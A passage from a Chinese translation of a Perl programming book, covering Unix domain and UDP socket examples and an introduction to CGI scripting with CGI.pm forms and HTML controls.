就是这样；现在，服务器将写入客户端。首先，你在主机上运行这个服务器：

```
%perl server.pl
```

然后，在另一台机器上或在相同机器上的新会话中，你运行上一个主题中从服务器读取的客户端程序，你将在客户端的控制台看到消息 **Hello from the server!**：

```
%perl client.pl

Hello from the server!
```

# 创建 Unix 域套接字客户端

“嗯，”新手程序员说，“我只想在相同机器上的两个 Unix 会话之间通信，似乎为了这个目的而不得不经过互联网有点可惜。”你问道，“你没听说过 Unix 域套接字吗？”“没有，”新手程序员说，“它们是什么？”“请坐，”你说。

你可以通过将套接字类型设置为 **PF_UNIX** 而不是 **PF_INET** 来创建在相同 Unix 域中工作的服务器和客户端。
在这种情况下，你绑定到一个文件，而不是一个端口，连接根本不必使用互联网。

举个例子，我将在本主题中创建一个 Unix 域客户端，并在下一个主题中创建匹配的服务器。我按如下方式在客户端中创建套接字（注意，我使用 **PF_UNIX** 而不是 **PF_INET** 来指定连接类型）：

```perl
use Socket;

socket(SOCKET, PF_UNIX, SOCK_STREAM, 0)
    or die "Could not create socket.\n";
```

现在，我将套接字连接到一个我将命名为 **transfer** 的文件，如下所示（注意，我在这里使用 **sockaddr_un** 来获取 Unix 域套接字，而不是 **sockaddr_in**）：

```perl
use Socket;

$file = 'transfer';

socket(SOCKET, PF_UNIX, SOCK_STREAM, 0)
    or die "Could not create socket.\n";

connect(SOCKET, sockaddr_un($file))
    or die "Could not connect.\n";
```

这个名为 **transfer** 的文件将保存在客户端和服务器之间发送的数据。我可以像这样向服务器发送一条消息“**Hello from the client!\n**”：

```perl
use Socket;

$file = 'transfer';

socket(SOCKET, PF_UNIX, SOCK_STREAM, 0)
    or die "Could not create socket.\n";

connect(SOCKET, sockaddr_un($file))
    or die "Could not connect.\n";

print SOCKET "Hello from the client!\n";

close SOCKET;

exit;
```

客户端部分到此结束；我将在下一个主题中编写相应的服务器。

# 创建 Unix 域套接字服务器

> “好的，”新手程序员说，“我已经创建了一个 Unix 域客户端。那么，创建一个可以与该客户端一起使用的 Unix 域服务器怎么样？”“没问题，”你说，“请坐，我们这就开始。”

在本主题中，我将创建一个与上一个主题中开发的客户端配套的 Unix 域服务器。这个服务器将非常类似于本章前面使用 **Socket** 模块开发的套接字服务器，只是它将使用 **PF_UNIX** 而不是 **PF_INET**，并使用 **socketaddr_un** 获取 Unix 域地址而不是 **sockaddr_in**。我还将使用与客户端应用程序中相同的 **socket** 文件（命名为 **transfer**），这样客户端就能与服务器通信。


# 第20章 网络与套接字编程

我是这样创建新的服务器**套接字**的：

```
use Socket;

$file = 'transfer';

$addr = sockaddr_un($file);

socket(SERVER, PF_UNIX, SOCK_STREAM, 0)
    or die "Could not create socket.\n";
```

现在，如果**套接字**文件存在，我会删除它，以避免使用先前会话的残留数据，并将服务器的**套接字**绑定到该文件：

```
use Socket;

$file = 'transfer';

$addr = sockaddr_un($file);

socket(SERVER, PF_UNIX, SOCK_STREAM, 0)
    or die "Could not create socket.\n";

unlink($file);

bind (SERVER, $addr)
    or die "Could not bind.\n";
```

现在，我监听连接，当连接建立时，读取并打印来自客户端的消息，如下所示：

```
use Socket;

$file = 'transfer';

$addr = sockaddr_un($file);

socket(SERVER, PF_UNIX, SOCK_STREAM, 0)
    or die "Could not create socket.\n";

unlink($file);

bind (SERVER, $addr)
    or die "Could not bind.\n";
```

```
listen(SERVER, SOMAXCONN)
    or die "Could not listen.\n";

while (accept(CLIENT,SERVER)) {
    $line = <CLIENT>;
    print $line;
}
```

这就是全部内容了；现在，你可以在一个Unix会话中运行服务器：

```
%perl server.pl
```

然后，你可以在同一台机器的另一个会话中运行客户端：

```
%perl client.pl
```

当你启动客户端时，它会连接到服务器并发送其消息；服务器会这样打印该消息：

```
%perl server.pl

Hello from the client!
```

这样，我们就实现了Unix域套接字。请注意，客户端除了向服务器发送数据外，也可以从服务器读取数据。

## 检查套接字是否可读或可写

要检查套接字是否可读或可写，你需要使用**IO::Select**模块的**can_read**或**can_write**方法。在下面的示例中，我检查四个套接字中哪些已准备好读取，然后从已准备好的套接字中读取数据：

```
use IO::Select;

$select = IO::Select->new();

$select->add($socket1);
$select->add($socket2);
$select->add($socket3);
$select->add($socket4);
```

```
@ok_to_read = $select->can_read($timeout);
```

```
foreach $socket (@ok_to_read) {

    $socket->recv($data_buffer, $flags)

    print $data_buffer;

}
```

## 创建UDP客户端

另一种不使用连接而使用*消息*的客户端/服务器通信方式是UDP。UDP的开销较低，但可靠性也较低。事实上，你无法保证消息一定会送达。然而，与TCP相比，UDP确实提供了一些优势，包括能够同时向多个目标广播。但是，如果你希望确保发送的内容能被送达，你应该使用TCP。

现在，我将编写一个使用UDP的客户端/服务器示例，其中客户端程序向服务器写入。我将在这里编写客户端，在下一个主题中编写相应的服务器。

我使用**IO::Socket new**方法启动客户端程序，向该方法传递我将使用的协议（UDP）设置；我想访问的服务器端口；以及服务器机器的名称：

```
use IO::Socket;
```

```
$socket = IO::Socket::INET->new
(
    Proto => 'udp',
    PeerPort  => 4321,
    PeerAddr  => 'servername.com'
);
```

现在，我只需使用**send**方法向服务器发送一些数据：

```
use IO::Socket;
```

```
$socket = IO::Socket::INET->new
(
    Proto => 'udp',
    PeerPort  => 4321,
    PeerAddr  => 'servername.com'
);
```

```
$socket->send('Hello from the client!');
```

客户端部分到此为止；我将在下一个主题中编写服务器。

## 创建UDP服务器

在这个主题中，我将编写与前面主题中开发的UDP客户端配套的UDP服务器。在这里，我使用IO::Socket模块的new方法在服务器上创建套接字，表明我想使用UDP并给出要使用的端口号：

```
use IO::Socket;

$socket = IO::Socket::INET->new
(
    LocalPort => 4321,
    Proto => 'udp'
);
```

要实际从客户端接收数据，我将使用套接字对象的recv方法，表明我最多希望接收128字节。此方法将等待数据，数据出现后，我通过打印来显示该数据：

```
use IO::Socket;

$socket = IO::Socket::INET->new
(
    LocalPort => 4321,
    Proto => 'udp'
);
```

```
$socket->recv($text, 128);
```

```
print $text;
```

现在，你可以这样运行此服务器：

```
%perl server.pl
```

要向服务器发送消息，请从另一台机器运行客户端（或者如果你启动了新会话，甚至可以在同一台机器上运行）：

```
%perl client.pl
```

当客户端程序运行时，你会看到服务器程序输出以下结果：

```
%perl server.pl
```

*Hello from the client!*

## 第21章

## CGI编程：CGI.pm

| 如果你需要以下内容的快速解决方案： | 请参阅页面： |
|--------------------------------------|-----------|
| 使用PerlScript | 913 |
| 开始一个HTML文档 | 914 |
| 显示图像 | 915 |
| 创建HTML头部 | 915 |
| 居中HTML元素 | 916 |
| 创建带项目符号的列表 | 917 |
| 创建超链接 | 918 |
| 创建水平线 | 918 |
| 创建HTML表单 | 919 |
| 使用文本字段 | 920 |
| 从HTML控件读取数据 | 921 |
| 使用文本区域 | 922 |
| 使用复选框 | 923 |
| 使用滚动列表 | 924 |
| 使用单选按钮 | 925 |
| 使用密码字段 | 927 |
| 使用弹出菜单 | 928 |
| 使用隐藏数据字段 | 929 |
| 创建提交和重置按钮以从HTML表单上传数据 | 930 |
| 结束HTML表单 | 931 |
| 结束HTML文档 | 932 |
| 从网页调用CGI脚本 | 932 |
| 创建图像映射 | 935 |
| 创建框架 | 937 |

| 如果你需要以下内容的快速解决方案： | 请参阅页面： |
|---|---|
| 非面向对象的CGI编程 | 938 |
| 调试CGI脚本 | 940 |
| 它是可执行的吗？ | 940 |
| 其语法正确吗？ | 940 |
| 在本地运行脚本 | 940 |
| 将STDERR重定向到你的浏览器或文件 | 943 |
| 使用CGI::Carp | 943 |

## 深入探讨

本章开始我们使用通用网关接口（CGI）脚本进行Web编程的研究。对许多程序员来说，这将是本书最激动人心的部分。

CGI编程就是创建和使用CGI脚本。在Perl编程中，CGI脚本只是放在文件中的Perl程序，该文件（通常）具有.cgi扩展名。你将CGI脚本放置在互联网服务提供商（ISP）上，这些脚本可以使用Perl代码动态创建Web页面，响应用户操作。从现在起，我们将不再向控制台发送输出，而是向Web浏览器发送。

动态创建Web页面可以让你的Web页面通过按钮、滚动列表、弹出菜单等变得生动活泼。使用CGI，用户可以与你的Web页面交互，访问数据库、运行程序、玩游戏，甚至在网上购物。Perl是成千上万程序员背后交互式Web页面的驱动力。

Perl中CGI编程的美妙之处在于，你使用代码创建你想要的网页，并动态响应用户。Perl CGI编程与我们到目前为止所做的编程类型相同，只是你的代码运行在Web服务器上，而**STDIN**、**STDOUT**和**STDERR**不绑定到控制台。除此之外，它就是Perl，因此你已经培养的本书中的技能都适用；真正改变的只是I/O，而这差别并不大。

当你运行Perl CGI脚本时，标准I/O文件句柄与为控制台编写的程序不同。CGI脚本的**STDIN**、**STDOUT**和**STDERR**设置如下：

-   **STDIN**从超文本标记语言（HTML）控件（如按钮、文本字段和滚动列表）向你的脚本提供输入。这些信息随后被编码。要解析这些信息，你需要使用CGI.pm这样的模块来用网页中的数据填充变量。

-   **STDOUT**返回到用户的Web浏览器。要创建一个新的Web页面，你只需将该网页的HTML直接打印到**STDOUT**，或者使用CGI.pm等模块的方法来创建你想要的HTML，然后将其发送到**STDOUT**。（使用这些方法编写HTML通常比你自己编写HTML更容易，特别是在确保尖括号匹配、正确的标签包含其他标签等方面。）


## 使用 CGI.pm 进行 CGI 编程

在本章中，我们将使用 Perl 自带的 CGI 模块 **CGI.pm** 来掌握 CGI 脚本编程的基本要点。我将在此创建两个 CGI 脚本；第一个是 cgi1.cgi，它创建一个布满 HTML *控件* 的网页。（按钮、滚动列表、单选按钮、弹出菜单等都是 HTML 控件。）当用户点击该网页中的提交按钮时，Web 浏览器会将这些控件中的数据发送到第二个 CGI 脚本 cgi2.cgi，在该脚本中，我将读取并把这些数据反馈给用户。通过这种方式，你将了解如何在 CGI 脚本中使用所有常见的 HTML 控件。

在本章及接下来的三章中，我假设你拥有一个 ISP 和一个网站，并且能够将网页上传到该网站（这通常只需使用 FTP 程序或使用 ISP 提供的可上传文件的网页即可轻松完成）。我还假设你了解如何使用 HTML，并能用它来编写网页。

你还需要能够在你的 ISP 上运行 CGI 脚本；出于安全原因，有些 ISP 不允许这样做。有些 ISP 将你的 CGI 脚本限制在你账户中名为 cgi-bin 或仅 cgi 的目录中，并且必须先为该目录设置特殊权限才能执行任何脚本。你可能还有其他限制；例如，某些 Web 服务器不允许你的 CGI 脚本使用反引号运算符（`` ` ``）执行系统命令，因为这是一个主要的安全漏洞来源。

假设你可以运行 CGI 脚本，你还必须不要忘记为这些文件设置任何你需要的相关权限级别（同时不能危及你或系统的安全）。Unix 文件权限由三个八位数字组成，分别对应文件所有者的权限、同一用户组中其他人的权限以及所有其他人的权限。在每个八位数字中，值为 4 表示读权限，值为 2 表示写权限，值为 1 表示执行权限。你将这些值相加来设置权限设置中的各个数字——例如，权限 0600 表示文件的所有者，且只有文件所有者，可以读取和写入该文件。

在 Unix 机器上，你可以使用 **chmod** 命令像这样设置权限：**chmod 755 script.cgi**。这是 CGI 脚本的常见权限设置——755——因为该设置赋予文件所有者读、写和执行权限，同时赋予所有其他人读和执行权限，他们需要这些权限来使用你的 CGI 脚本。

越来越多的 ISP 出于安全原因不允许用户通过 shell 访问 ISP 的万维网区域；然而，许多现代 FTP 程序允许你设置文件权限以及上传文件，这正逐渐成为设置 CGI 脚本权限的最常用方式，而不是直接在 shell 中使用 **chmod** 命令。如果你的 FTP 程序不允许你使用 755 等八进制值来设置文件权限，请为你的 CGI 脚本设置所有三个级别用户的读和执行权限，并为所有者级别设置写权限。

> **提示：** *有关你的 ISP 上传流程的更多信息，请咨询你的技术支持专家——如果他们可以联系到的话。*

那么，如何创建一个 CGI 脚本呢？理论上，这样做非常简单：你的 CGI 程序在被 Web 浏览器调用时（即当 Web 浏览器导航到你的 CGI 文件的 URL 时），就像任何 Perl 程序一样执行普通的 Perl 代码，而你打印到标准输出通道的任何内容都会被发送到 Web 浏览器。

> **提示：** *对于喜欢通过在命令行显式调用 Perl 来执行 Perl 脚本的程序员，你必须使用类似 **#!/usr/local/bin/perl** 的行作为 CGI 脚本的第一行，因为你无法直接调用这些脚本的 Perl（例如，**%perl script.cgi**），这意味着它们必须自行找到 Perl。更多详情请参见第 1 章中的"编写代码：查找 Perl 解释器"主题。*

如果你的 CGI 脚本执行一个命令——例如 **print "Hello!"**——该文本会被发送回浏览器，**Hello!** 会出现在网页中。但是，这非常基础。如果你想从网页中的控件读取输入呢？如果你想使用脚本创建那些控件呢？为了实现这些以及更多功能，我将使用 Perl 自带的 **CGI.pm** 包。（在随附光盘的第 23 章中，我将向你展示如何使用另一个流行的包 cgi-lib.pl。）以这种方式创建 CGI 脚本是 Perl 中的标准做法，我们将在本章及后续章节中对 **CGI.pm** 进行全面的学习。

**CGI.pm** 随 Perl 一起提供，因此如果你的系统上安装了 Perl，你应该就有 **CGI.pm**。自 Perl 5 发布以来，**CGI.pm** 一直是面向对象的，不过一个更简单的、面向函数的接口仍然存在。我将在此使用面向对象的 CGI 编程，但也会介绍基于函数的接口，以便你可以选择自己喜欢的编码方式。请参见本章即时解决方案部分中的"非面向对象 CGI 编程"主题。

当用户调用你的 CGI 脚本时，无论是直接通过 URL 还是通过网页，来自该页面的数据（例如 HTML 控件中的数据）都会被编码并发送到你的脚本；该数据会作为文本附加到你脚本的 URL 末尾。要读取该数据，大多数程序员使用一个模块，例如 **CGI.pm**，来解码数据并将其存储在变量中。

要开始使用 **CGI.pm**，你需要使用它的 **new** 方法来获取一个 CGI 对象，然后调用它的各种方法。每个主要 HTML 标签都对应一个方法，调用该方法会使用你传递的属性生成该标签。你也可以通过使用 **param** 方法获取从网页发送到你的 CGI 脚本的数据。

**CGI.pm** 方法可以接受*命名参数*，这意味着你可以将你要设置的 HTML 属性的名称以及你要设置的值作为键/值对传递。在下面的示例中，我使用一个 CGI 对象来创建网页，使用该对象的方法来创建 HTML 标签。在这个例子中，我向 **CGI.pm textarea** 方法传递命名参数来创建一个 HTML **textarea** 控件（**textarea** 类似于一个二维文本框），给它一个名称（'**textarea**'）和一个大小（10 行 60 列）。请注意，命名参数中属性名称前的连字符是可选的，所以如果你愿意，可以将 -name=>'textarea' 写成 **name=>'textarea'**：

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->header,

$co->start_html(-title=>'CGI Example'),
$co->center($co->h1('Welcome to CGI!')),
$co->start_form(),
$co->textarea
(
    -name=>'textarea',
    -rows=>10,
    -columns=>60
),
$co->end_form(),
$co->end_html;
```

**CGI.pm** 的方法如 **textarea** 只返回 HTML；要将该 HTML 放入网页中，你需要使用 **print** 函数将其发送到 **STDOUT**。事实上，使用 **CGI.pm** 的脚本可以简单地是一个长 **print** 语句，如前面的代码所示。然而，下面的代码创建了一个包含 HTML **textarea** 控件的完整网页：在这个例子中，我仅使用了 **\<TEXTAREA\>** 标签的*属性*来设置该标签。（HTML 属性是标签本身的一部分，就像你在这里看到的 **NAME**、**ROWS** 和 **COLS** 属性：**\<TEXTAREA NAME="textarea" ROWS=10 COLS=60\>**。）但是，如果你想在开始和结束标签之间包含 HTML 内容呢？例如，如果你想在 **\<P\>** 和 **\</P\>** 标签之间包含文本"Welcome to CGI!"，像这样：**\<P\>Welcome to CGI!\</P\>**？在这种情况下，文本"Welcome to CGI!"是标签的*内容*，而不是属性。如果你要向 **CGI.pm** 传递标签的内容以及属性，你需要将属性封装在一个哈希中，让 **CGI.pm** 知道它们是属性，然后将实际内容作为该哈希之后的参数传递，像这样：

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->header,

$co->start_html(-title=>'CGI Example'),
$co->center($co->h1('Welcome to CGI!')),
$co->start_form(),
$co->textarea
(
    -name=>'textarea',
    -rows=>10,
    -columns=>60
```


## 第21章 CGI编程：CGI.pm

```perl
),
$co->end_form(),
$co->p({-align=>center}, 'Welcome to CGI!'),
$co->end_html;
```

这段代码将生成如下网页：

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
<HTML>
<HEAD>
<TITLE>CGI Example</TITLE>
</HEAD>

<BODY>
<CENTER>
<H1>Welcome to CGI!</H1>
</CENTER>

<FORM METHOD="POST" ENCTYPE="application/x-www-form-urlencoded">

<TEXTAREA NAME="textarea" ROWS=10 COLS=60>
</TEXTAREA>

</FORM>

<P ALIGN="center">
Welcome to CGI!
</P>
</BODY>
</HTML>
```

花括号用于创建一个哈希表，它使**CGI.pm**能够区分HTML标签的属性和标签内容；属性被放在这个哈希表中。

在**CGI.pm**中，用于创建HTML标签的方法被称为HTML*快捷方法*。你可以在表21.1中找到所有可用的HTML快捷方法；请注意，它们的名称与它们所创建的HTML标签同名。之所以称这些方法为快捷方法，是因为它们能让你轻松地创建HTML。（如果你愿意，也可以完全不用**CGI.pm**的HTML快捷方法，直接将HTML打印到**STDOUT**。有时候，这样做比使用快捷方法更简单。）

如果你想使用这些HTML快捷方法之一来为创建的HTML标签指定属性，即使你不给标签任何内容，也必须通过一个哈希表来传递这些属性。而且，你必须为每个属性提供一个键/值对；如果该属性没有值，就传递一个空字符串`""`。另一方面，如果你只是传递要用作标签内容的文本，而没有任何属性，你可以直接将该文本作为参数传递给HTML快捷方法。以下是CGI HTML快捷方法示例及其创建的HTML：

```
p();                          ----> <P>
p('Hello there');             ----> <P>Hello there</P>
p('Hello', 'there');          ----> <P>Hello there</P>
p({-align=>right});           ----> <P ALIGN="RIGHT">
p({-align=>right}, 'text');   ----> <P ALIGN="RIGHT">text</P>
p({-align=>right}, 'text');   ----> <P ALIGN="RIGHT">text</P>
p({-align=>right}, ['text1', 'text2']); ----> <P ALIGN="RIGHT">text1</P>
                                              <P ALIGN="RIGHT">text2</P>
```

请特别注意最后一个示例；在这里，我传递了一个属性哈希表和一个标签内容数组。当你传递一个内容参数数组时，会为数组中的*每个*项目创建一个具有给定属性的标签。

你可能会惊讶地发现，HTML控件（例如**textarea**控件）的名称并未出现在HTML快捷方法列表中，因为**textarea**控件中的默认文本实际上是放置在**<TEXTAREA>**标签的内容中，就像这样，此文本区域中的默认文本是"Hello!"：

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
<HTML>
<HEAD>
<TITLE>CGI Example</TITLE>
</HEAD>

<BODY>
<CENTER>
<H1>Welcome to CGI!</H1>
</CENTER>

<FORM METHOD="POST" ENCTYPE="application/x-www-form-urlencoded">

<TEXTAREA NAME="textarea" ROWS=10 COLS=60>
Hello!
</TEXTAREA>

</FORM>
<P ALIGN="center">
Welcome to CGI!
</P>
</BODY>
</HTML>
```

然而，**CGI.pm**并不使用HTML快捷方法来处理控件；相反，你使用属性来设置控件，而不是使用HTML内容。在这种情况下，你使用**-value**属性来设置文本区域中的默认文本，如下所示：

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->header,

$co->start_html(-title=>'CGI Example'),
$co->center($co->h1('Welcome to CGI!')),
$co->start_form(),
$co->textarea
(
    -name=>'textarea',
    -value=>'Hello!',
    -rows=>10,
    -columns=>60
),
$co->end_form(),
$co->p({-align=>center}, 'Welcome to CGI!'),
$co->end_html;
```

这段代码生成了前面的HTML，其中**<TEXTAREA>**标签同时包含了内容文本和属性。

请注意，我是通过一个简单的列表将属性传递给**textarea**方法的，而不是通过哈希表。在**CGI.pm**的2.38版本之前，你总是将属性以列表的形式传递给控件创建方法（如**textarea**），但在较新的版本中，如果你愿意，也可以通过哈希表传递，这与将属性传递给HTML快捷方法的方式更为一致。

> *提示：因为许多Perl安装没有**CGI.pm** 2.38或更高版本，所以这里我仍然坚持将属性列表传递给控件创建方法。*

如果你只用一个参数（例如，**$co->textarea('text1')**）而不是一个或多个键值对参数（例如，**$co->textarea(-name => 'textarea', -value=>'Hello!')**）来调用控件创建方法如**textarea**，那么该单个参数将被视为控件的名称。

**CGI.pm**还支持简单的函数式编程接口，如果你不需要其面向对象的特性，可以在本章末尾看一下函数式**CGI.pm**的例子。cgi-lib.pl（参见第16章）的用户可能也有兴趣知道**CGI.pm**提供了一个兼容的**ReadParse**形式。

### 在cgi1.cgi中创建HTML控件

为了向你展示**CGI.pm**如何工作，并创建一些你可以在自己的CGI脚本中使用的代码，本章我将编写两个脚本：一个创建一个充满控件（如文本字段、复选框和单选按钮——包括一个提交按钮）的网页，另一个脚本读取用户在该网页中输入的数据。这两个CGI脚本都主要由一个很长的**print**语句组成，我通过向**STDOUT**（即Web浏览器）发送文本来创建网页。

第一个CGI脚本是cgi1.cgi，为了方便参考，它出现在清单21.1中。如何运行这个脚本？你只需使用Web浏览器导航到它。当用户通过导航到其URL（例如**www.yourserver.com/user/cgi/cgi1.cgi**）在他的Web浏览器中打开这个CGI脚本时，脚本会返回一个包含HTML控件和文本的网页，组成一个供用户填写的示例网页调查。

如图21.1所示，该网页用一张图片欢迎用户，并提示如果用户不想填写调查，他或她可以通过一个超链接跳转到CPAN站点。



图21.1 文本、项目符号列表和一个超链接。

向下滚动调查页面，你可以在图21.2中看到，它在一个文本字段中询问用户的姓名，并在一个HTML文本区域中询问他或她的意见。

继续向下滚动调查页面，你会在调查页面中看到更多的控件，如图21.3所示；该页面包含复选框、单选按钮、滚动列表、弹出菜单、密码控件以及提交和重置按钮。这些控件用于从用户那里接受更多的调查数据，我们将在本章中看到如何从CGI脚本中创建所有这些控件。

当用户点击调查底部的提交按钮时，Web浏览器会收集网页中所有控件的数据，并将这些数据发送到另一个CGI脚本cgi2.cgi。

cgi2.cgi脚本读取发送给它的数据，并在一个新的网页中生成该数据的摘要。作为参考，cgi2.cgi出现在清单21.2中，该脚本的结果出现在图21.4中，你可以看到用户在调查网页中输入的数据摘要。cgi1.cgi创建的HTML出现在清单21.3中，cgi2.cgi创建的HTML出现在清单21.4中。

调查网页如何知道将调查数据发送到哪里？该页面中的所有控件都在同一个HTML表单中。表单不是一个可见的网页实体；它只是一个包含一组控件的HTML结构。在这个

### 表21.1 CGI.pm HTML快捷方法。

| a | address | applet | b |
| --- | --- | --- | --- |
| base | basefont | big | blink |
| body | br | caption | center |
| cite | code | dd | dfn |
| div | dl | dt | em |
| font | form | frame | frameset |
| h1 | h2 | h3 | h4 |
| h5 | h6 | head | hr |
| html | i | img | input |
| kbd | li | ol | p |
| pre | samp | select | small |
| strong | sup | table | td |
| th | title | tr | tt |
| ul | var |  |  |

## 第21章 CGI编程：CGI.pm

图 21.2 文本字段与文本区域。



图 21.3 HTML控件。





图 21.4 cgi2.cgi 展示调查结果。

本例中，表单的 **action** 属性存放着 cgi2.cgi 的 URL。当用户点击提交按钮时，Web 浏览器会将表单中控件的数据发送到该 URL。在 cgi2.cgi 中，我读取用户输入的数据并显示出来。

你可以使用 HTML **<FORM>** 标签来创建一个 HTML 表单，就像这样：我在表单中放置了一个文本字段，以及提交和重置按钮，并指定当用户点击提交按钮时，文本字段中的文本将被发送到 **www.server.com/username/cgi/cgi2.cgi**：

```
<FORM METHOD="POST" ACTION="http://www.server.com/username/cgi/cgi2.cgi"
ENCTYPE="application/x-www-form-urlencoded">
<INPUT TYPE="text" NAME="text" VALUE="">
<INPUT TYPE="submit" NAME="Submit" VALUE="Submit">
<INPUT TYPE="reset">
</FORM>
```

要获取关于如何使用 HTML 创建表单以从网页调用 CGI 脚本的更多细节，请参阅本章“即时解决方案”部分中的“从网页调用 CGI 脚本”主题。

你也可以使用 CGI 脚本创建一个包含 HTML 表单的网页。你使用 **start_form** 方法在 CGI 脚本编写的网页中创建一个表单，并像这样在 cgi1.cgi 中指定数据的提交位置：

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->start_form
(
	-method=>'POST',
	-action=>"http://www.yourserver.com/user/cgi/cgi2.cgi"
);
```

如果你调用 **start_form** 时不带任何参数，提交按钮将把（即发送）表单的数据发回到创建该网页的同一个 CGI 脚本。参阅本章“即时解决方案”部分中的“创建图像映射”主题以获取示例。这意味着你可以将表单中的数据发送回生成该表单的同一脚本。例如，第一次调用该脚本时，它可以生成一个网页；当你再次使用该页面表单中的数据调用它时，它可以读取并使用这些数据创建一个新页面。

创建表单后，你可以像这样向其中添加 HTML 控件，例如一个 **textarea**：

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->start_form
(
	-method=>'POST',
	-action=>"http://www.yourserver.com/user/cgi/cgi2.cgi"
),

$co->textarea
(
	-name=>'textarea',
	-value=>'Hello!',
	-rows=>10,
	-columns=>60
);
```

你可以使用 **submit** 方法添加提交按钮，使用 **reset** 方法添加重置按钮，并使用 **end_form** 方法结束表单：

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->start_form
(
    -method=>'POST',
    -action=>"http://www.yourserver.com/user/cgi/cgi2.cgi"
),

$co->textarea
(
    -name=>'textarea',
    -value=>'Hello!',
    -rows=>10,
    -columns=>60
),

$co->submit('Submit'),
$co->reset,
$co->end_form;
```

现在，当用户点击提交按钮时，表单中控件的数据将被发送到 cgi2.cgi。下一步是实际读取这些数据。

### 在 cgi2.cgi 中从 HTML 控件读取数据

当用户在 HTML 表单中点击提交按钮时，表单中控件的数据将被提交到你的 CGI 脚本。当数据到达时，你可以使用 CGI.pm 模块的 param 方法来读取它。

你可以使用你赋予控件的名称（你通过 -name 属性为控件命名）来调用 param 方法，返回值就是控件中的数据。要查看是否有任何数据可用，你可以无参数地调用 param 方法；如果它返回一个真值，那么就有一个来自 HTML 表单的数据在等待你处理。

以下示例来自 cgi2.cgi。在此例中，我读取用户在名为 text 的文本字段和名为 textarea 的文本区域中输入的数据，并在一个新的网页中打印出来：

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

if ($co->param()) {
    print
        "Your name is: ",$co->em($co->param('text')), ".",
            $co->p,

        "Your opinions are: ",$co->em($co->param('textarea')), ".",
            $co->p,
            .
            .
            .
}
```

我们将在本章的其余部分看到更多关于如何从 HTML 控件读取数据的细节。就是这样；我们已经概览了如何创建调用 CGI 脚本的 HTML 页面以及如何读取它们发送的数据，这意味着是时候开始编写一些实际的代码了。我们现在就开始。

### 清单 21.1 cgi1.cgi。

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

$labels{'1'} = 'Sunday';
$labels{'2'} = 'Monday';
$labels{'3'} = 'Tuesday';
$labels{'4'} = 'Wednesday';
$labels{'5'} = 'Thursday';
$labels{'6'} = 'Friday';
$labels{'7'} = 'Saturday';

print $co->header,

$co->start_html
(
    -title=>'CGI Example',
    -author=>'Steve',
    -meta=>{'keywords'=>'CGI Perl'},
    -BGCOLOR=>'white',
    -LINK=>'red'
),

$co->center($co->img({-src=>'welcome.gif'})),
